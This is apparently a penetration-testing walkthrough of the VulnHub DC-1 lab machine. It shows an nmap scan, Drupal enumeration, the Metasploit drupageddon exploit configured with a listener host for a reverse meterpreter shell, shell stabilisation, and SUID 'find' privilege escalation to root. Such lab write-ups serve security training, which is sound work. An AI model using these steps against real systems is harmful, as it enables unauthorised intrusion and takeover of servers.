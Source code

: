 <h1>DC: 1</h1>

Today, we'll be looking at the DC-1 machine on vulnhub.

You can download the machine [here](https://www.vulnhub.com/entry/dc-1,292/).

Let's scan the machine with nmap.
```
┌──(root㉿kali)-[~]
└─# nmap -sS -A -p- 192.168.56.103
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-26 14:50 EET
Nmap scan report for 192.168.56.103
Host is up (0.00015s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-generator: Drupal 7 (http://drupal.org)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35846/udp   status
|   100024  1          43348/tcp   status
|   100024  1          45635/tcp6  status
|_  100024  1          60640/udp6  status
43348/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:B8:A0:32 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.15 ms 192.168.56.103

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.51 seconds
```
The machine is running: http, ssh and rcpbind.

Browsing the machine on port 80, we can see it's running Drupal.
You can read the great article [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal) about enumerating Drupal.
I downloaded the tool mentioned in the article **droopescan** and used it on the machine.

![](pics/pic1.png)

```droopescan scan drupal -u http://192.168.56.103```

![](pics/pic2.png)

I didn't find anything useful from the scan.

After some time, I searched for drupal using searchsploit and found a sql injection vulnerability.

![](pics/pic3.png)

Let's fire up metasploit.

I used this exploit: **exploit/multi/http/drupal_drupageddon**

Then set the options.

```set rhosts <TARGET IP>```

```set lhost <YOUR IP>```

We got a meterpreter session.

![](pics/pic4.png)

You can use the command ``shell`` to open bash shell from the meterpreter session.

You can also use these two commands to make your shell more stable.

```python -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```

![](pics/pic5.png)

Let's move to **tmp** and use linpeas for local enumeration.

In the suid section, you can see that we can run the command **find** with permissions.

![](pics/pic6.png)

Let's search for it on [gtfobins](https://gtfobins.github.io/).

![](pics/pic7.png)

We can use this command to get a root shell.

We got are now root!

![](pics/pic8.png)
